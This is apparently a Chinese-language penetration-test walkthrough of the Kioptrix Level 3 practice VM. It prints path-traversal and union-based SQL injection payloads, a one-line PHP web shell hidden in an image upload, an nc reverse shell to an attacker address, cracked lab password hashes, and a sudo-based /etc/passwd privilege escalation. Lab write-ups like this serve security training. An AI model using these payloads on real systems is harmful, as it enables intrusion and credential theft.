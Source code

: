 # 扫描

>开放了80和22端口，22端口有用户名枚举漏洞


## web枚举

* **web fuzz**
```shell
[16:04:36] Starting:
[16:04:39] 403 -  332B  - /.ht_wsr.txt
[16:04:39] 403 -  335B  - /.htaccess.bak1
[16:04:39] 403 -  335B  - /.htaccess.orig
[16:04:39] 403 -  337B  - /.htaccess.sample
[16:04:39] 403 -  335B  - /.htaccess_orig
[16:04:39] 403 -  333B  - /.htaccess_sc
[16:04:39] 403 -  336B  - /.htaccess_extra
[16:04:39] 403 -  333B  - /.htaccessOLD
[16:04:39] 403 -  335B  - /.htaccess.save
[16:04:39] 403 -  325B  - /.htm
[16:04:39] 403 -  326B  - /.html
[16:04:39] 403 -  334B  - /.htaccessOLD2
[16:04:39] 403 -  335B  - /.htpasswd_test
[16:04:39] 403 -  331B  - /.htpasswds
[16:04:39] 403 -  333B  - /.htaccessBAK
[16:04:39] 403 -  332B  - /.httr-oauth
[16:05:04] 301 -  355B  - /cache  ->  http://192.168.80.152/cache/
[16:05:08] 301 -  354B  - /core  ->  http://192.168.80.152/core/
[16:05:08] 200 -  688B  - /core/fragments/moduleInfo.phtml
[16:05:09] 403 -  325B  - /data
[16:05:09] 403 -  326B  - /data/
[16:05:09] 403 -  337B  - /data/adminer.php
[16:05:09] 403 -  337B  - /data/autosuggest
[16:05:09] 403 -  350B  - /data/DoctrineORMModule/cache/
[16:05:09] 403 -  334B  - /data/backups/
[16:05:09] 403 -  350B  - /data/DoctrineORMModule/Proxy/
[16:05:09] 403 -  332B  - /data/files/
[16:05:09] 403 -  331B  - /data/logs/
[16:05:09] 403 -  330B  - /data/tmp/
[16:05:09] 403 -  332B  - /data/cache/
[16:05:09] 403 -  332B  - /data/debug/
[16:05:09] 403 -  335B  - /data/sessions/
[16:05:16] 200 -   23KB - /favicon.ico
[16:05:18] 301 -  357B  - /gallery  ->  http://192.168.80.152/gallery/
[16:05:42] 301 -  357B  - /modules  ->  http://192.168.80.152/modules/
[16:05:43] 200 -    2KB - /modules/
[16:05:50] 301 -  360B  - /phpmyadmin  ->  http://192.168.80.152/phpmyadmin/
[16:05:53] 200 -    8KB - /phpmyadmin/
[16:05:53] 200 -    8KB - /phpmyadmin/index.php
[16:05:53] 401 -  520B  - /phpmyadmin/scripts/setup.php
[16:06:01] 403 -  334B  - /server-status
[16:06:01] 403 -  335B  - /server-status/
[16:06:07] 301 -  355B  - /style  ->  http://192.168.80.152/style/
[16:06:12] 200 -   18B  - /update.php

```

> 查看首页点击blog搜集到了一个域名，点击login可以看到CMS的名字，对页面url进行查看，发现可能存在包含，对路径进行测试。

`http://192.168.80.153/index.php?system=../../../../../../../../etc/passwd%00.jpg`

> 暴露出了两个用户名 dreg 和 loneferret

*  **LotusCMS漏洞尝试**

> 在google搜索漏洞库，`inurl:www.exploit-db.com LotusCMS` 发现了msf中有现成的利用，但是简单尝试后失败，并不存在漏洞


* **SQL注入**
> 将之前得到的域名与本地hosts文件绑定,然后尝试fuzz子域名,发现没有子域

![[Pasted image 20240123202100.png]]

> 查看页面源码发现了一个目录，结合扫描结果对gallery目录进行枚举，发现了version.txt和网站后台

![[Pasted image 20240123202321.png]]
> 通过version.txt暴露出的版本，查找公开漏洞。发现个sql注入

![[Pasted image 20240123202503.png]]



* gallery 目录的扫描
```shell
[17:10:32] Starting: gallery/
[17:10:35] 403 -  340B  - /gallery/.ht_wsr.txt
[17:10:35] 403 -  343B  - /gallery/.htaccess.bak1
[17:10:35] 403 -  345B  - /gallery/.htaccess.sample
[17:10:35] 403 -  343B  - /gallery/.htaccess.orig
[17:10:35] 403 -  343B  - /gallery/.htaccess_orig
[17:10:35] 403 -  344B  - /gallery/.htaccess_extra
[17:10:35] 403 -  341B  - /gallery/.htaccessOLD
[17:10:35] 403 -  342B  - /gallery/.htaccessOLD2
[17:10:35] 403 -  343B  - /gallery/.htaccess.save
[17:10:35] 403 -  333B  - /gallery/.htm
[17:10:35] 403 -  341B  - /gallery/.htaccessBAK
[17:10:35] 403 -  334B  - /gallery/.html
[17:10:35] 403 -  341B  - /gallery/.htaccess_sc
[17:10:35] 403 -  339B  - /gallery/.htpasswds
[17:10:35] 403 -  340B  - /gallery/.httr-oauth
[17:10:35] 403 -  343B  - /gallery/.htpasswd_test
[17:11:11] 200 -    3KB - /gallery/db.sql
[17:11:17] 301 -  364B  - /gallery/gadmin  ->  http://192.168.80.152/gallery/gadmin/
[17:11:17] 200 -    2KB - /gallery/gallery.php
[17:11:26] 500 -    2KB - /gallery/login.php
[17:11:27] 500 -    2KB - /gallery/logout.php
[17:11:36] 500 -    1KB - /gallery/p.php
[17:11:37] 301 -  364B  - /gallery/photos  ->  http://192.168.80.152/gallery/photos/
[17:11:37] 500 -    1KB - /gallery/photos.php
[17:11:44] 500 -    2KB - /gallery/profile.php
[17:11:45] 200 -   87B  - /gallery/readme.html
[17:11:46] 500 -  725B  - /gallery/register.php
[17:11:49] 500 -  725B  - /gallery/search.php
[17:11:59] 500 -    3KB - /gallery/tags.php
[17:12:01] 200 -    1KB - /gallery/themes/
[17:12:01] 301 -  364B  - /gallery/themes  ->  http://192.168.80.152/gallery/themes/
[17:12:06] 200 -   56B  - /gallery/version.txt
```

>尝试注入

```sql
http://kioptrix3.com/gallery/gallery.php?id=1 or 1=2#

当注入点为6时，暴露出了回显点，为2

http://kioptrix3.com/gallery/gallery.php?id=1 or 1=2 union select 1,2,3,4,5,6#

数据库名为gallery

http://kioptrix3.com/gallery/gallery.php?id=1 or 1=2 union select 1,table_name,3,4,5,6 from information_schema.tables where table_schema='gallery' #

得到感兴趣的表名为，gallarific_users

用扫描得到的dbsql查看后得到字段username password

最终得到了用户名密码
	admin：n0t7t1k4
```

> 登录web后台后，经过测试，发现如果直接上传图片会失败，使用修改当前图片的方式进行上传，测试发现直接在图片中写入反弹sh不成功

* 图片马
> 将图片马内容写为:<?=`$_POST[0]`?>.上传后发现可以执行命令。枚举可以反弹shell的程序，发现了nc

`nc -e /bin/bash 172.26.32.20 4444`

## 提权

```
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/apache2/suexec
/usr/lib/pt_chown
/usr/bin/arping
/usr/bin/mtr
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/at
/usr/bin/sudoedit
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/traceroute6.iputils
/usr/local/bin/ht
/usr/sbin/pppd
/usr/sbin/uuidd
/lib/dhcp3-client/call-dhclient-script
/bin/fusermount
/bin/ping
/bin/mount
/bin/umount
/bin/ping6
/bin/su
```

> 发现权限不够而且无法提权

* sql注入新发现

> 继续对数据库进行枚举，发现了另外一个用户表dev_accounts，经过枚举后得到账号和hash

dreg:0d3eccfb887aabd50f243b3f155c0f85  -> Mast3r
loneferret:5badcaf789d3d1d09794d8f021f40f0e -> starwars

最后通过sudo ht修改/etc/passwd的loneferret用户uid提权







